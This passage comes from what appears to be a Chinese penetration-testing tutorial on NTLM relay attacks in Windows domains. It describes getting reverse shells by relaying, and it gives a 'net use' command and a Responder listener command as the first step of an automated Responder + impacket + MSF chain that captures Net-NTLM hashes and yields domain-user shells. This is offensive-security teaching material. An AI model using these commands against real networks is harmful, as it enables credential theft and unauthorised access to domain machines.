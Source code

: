 ```plain
net use \\al1ex
```

[![](assets/1701222524-55d624e0a99da004429ed1fc66bef054.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128144716-f80f1c0e-8db9-1.png)  
Step 7：之后可以看到对每台PC进行了转发测试，若成功则反弹shell，总体来说效果不是很好，耗时太长了，我也不想等了。。。

[![](assets/1701222524-a9c05ca7777ae629ddd3ea074bfabd4f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128144731-012722e6-8dba-1.png)

##### 自动化利用

在实战中我们可以使用Responder + impacket + MSF来实现获取Net-NTLM hash，并通过ntlm中继获得域内普通用户的msf shell，具体步骤如下：  
Step 1：开启Responder监听

```plain
responder -I eth0 -r -d -w
```
